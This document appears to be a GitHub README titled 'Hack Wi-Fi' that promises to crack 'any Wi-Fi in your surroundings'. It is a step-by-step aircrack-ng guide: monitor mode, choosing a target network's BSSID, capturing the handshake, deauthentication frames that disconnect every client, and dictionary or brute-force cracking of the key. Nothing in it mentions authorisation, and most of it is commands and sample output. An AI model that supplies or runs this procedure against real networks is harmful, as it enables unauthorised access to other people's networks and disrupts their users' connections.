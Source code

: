 # Hack Wi-Fi
This repo contains every step to hack any Wi-Fi in your surroundings.  

**The basic requirement is having a Linux distro booted in your Machine or in a Virtual Machine.**
   - Using VM requires an external Wi-Fi network adapter that should support monitor mode. (Recommended: Alfa network adapter)
   - Using your machine doesn't require any external Wi-Fi adapter if the internal one supports monitor mode.  

## Install aircrack-ng:  
Arch:
```
sudo pacman -S aircrack-ng
```
Kali:
```Managed
sudo apt-get update
sudo apt-get upgrade aircrack-ng
```
Ubuntu/Debian:
```
sudo apt-get update
sudo apt-get install aircrack-ng
```
Fedora:
```
sudo dnf install aircrack-ng
```


## Check your wireless LAN adapter name:
```
ip addr
```
**Find your LAN adapter name below:**  
Here it is wlan0.
```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 123.0.0.4/5 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: enp2s0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc fq_codel state DOWN group default qlen 1000
    link/ether 04:42:1a:d0:ee:f4 brd ff:ff:ff:ff:ff:ff
3: wlan0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 90:e8:68:2c:e8:77 brd ff:ff:ff:ff:ff:ff
    inet 192.168.139.57/16 brd 192.168.255.255 scope global dynamic noprefixroute wlan0
       valid_lft 84054sec preferred_lft 84054sec
    inet6 fe80::a3f5:fa53:55c:b0e7/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```


## Change your adapter from managed mode to monitor mode
**Check it's mode:**
```
iwconfig
```
It should be in managed mode at its initial stage. The wlan0 says it's mode.
```
lo        no wireless extensions.

enp2s0    no wireless extensions.

wlan0     IEEE 802.11  ESSID:"LIBRARY"  
          Mode:Managed  Frequency:5.2 GHz  Access Point: A4:2A:95:2C:33:44   
          Bit Rate=585 Mb/s   Tx-Power=3 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=63/70  Signal level=-47 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:0   Missed beacon:0

```
**Checking for any conflicting process to kill them:**
```
sudo airmon-ng check kill
```  

**Changing the LAN to monitor mode:**
```
sudo airmon-ng start wlan0
```
Your Wi-Fi connection is deactivated now.

**Check it's mode now:**
```
iwconfig
```
It should be in monitor mode at this stage. The wlan0 says it's mode.
```
lo        no wireless extensions.

enp2s0    no wireless extensions.

wlan0mon  IEEE 800.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=3 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```
If you try to check, the wlan0 name is changed to wlan0mon, because we have changed it to monitor mode.  



## Discover the Access Points:
```
sudo airodump-ng wlan0mon
```
A whole bunch of wireless networks will be discovered here. From there note the BSSID(Would be found in the BSSID column) and the Channel(Would be found in the CH column) of your targeted wireless network. After being done with noting down that information, stop (Ctrl + C) the process.  

**Display only the targetted access point:**
```
sudo airodump-ng wlan0mon -d <BSSID>
```
Replace the above < BSSID > with your targetted network's BSSID that you noted before.  

It will show the information of your targetted network and below it shows the connected device with that network. If you see it is empty below that means,  no devices are connected with that network, and in that case, you need to connect a device so that the handshake file can be exchanged with the AP(Access Point) and you get the chance to capture it on it's way. When you see any connected device below, stop (Ctrl + C) the process.



## Storing the captured HandShake file to the local:
```
sudo airodump-ng -w getpass -c <CHANNEL> --bssid <BSSID> wlan0mon
```
Replace < CHANNEL > with the channel for your targeted network and < BSSID > with your BSSID.  

Here ```getpass``` is going to be the file name of the handshake file we would store.
Don't stop the process (Follow the next steps instead) and leave it till we send the de-authentication request and get the handshake file.



## Send the De-Authentication request:
Open a new console window and input the command there. That means you are instructed not to kill the process of the previous tab. That should be opened because we will get that file on that other window only.  
Enter the below command in the new tab of the console.
```
sudo aireplay-ng deauth 0 -a <BSSID> wlan0mon
```
Replace < BSSID > with your BSSID of the targeted AP.  

This sends the De-Authentication request to the targetted network which means, that each and every connected device will be disconnected and will try to reconnect with the AP again. This is the time we will capture the handshake file and will store it locally. Stop the process after 30 to 45 seconds.



## Checking the directory if the Handshake is captured:
```clear``` all the commands.
List the current directory by ```ls```
If any file named ```getpass-01.cap```is found that means the file is captured and it is ready to be cracked.
If nothing is found named ```getpass-01.cap``` that means the whole process should be completed correctly again.



## Cracking the HandShake file using aircrack-ng (Dictionary Attack):
Cracking that file needs some wordlists. Few wordlists are available in this repo and anyone from this should be downloaded.  
List the directory by ```ls``` to make sure both the wordlist and the Handshake file are present there.  

**Use the below command to crack the key:**  
```aircrack-ng getpass-01.cap -w <WORDLIST-PATH>```  
Replace < WORDLIST-PATH > with the path of the wordlist downloaded.  

_Now the output is either 'THE KEY IS FOUND' or 'THE KEY IS NOT FOUND'. If the key couldn't be found in that particular wordlist, try with a few other wordlists available._  
It is also suggested to go with a BruteForce attack if the key can't be found in wordlists.


## Switch to managed mode again from monitor mode:
```
sudo airmon-ng stop wlan0
```
Your Wi-Fi connection is activated now and it has been changed to wlan0 from wlan0mon.
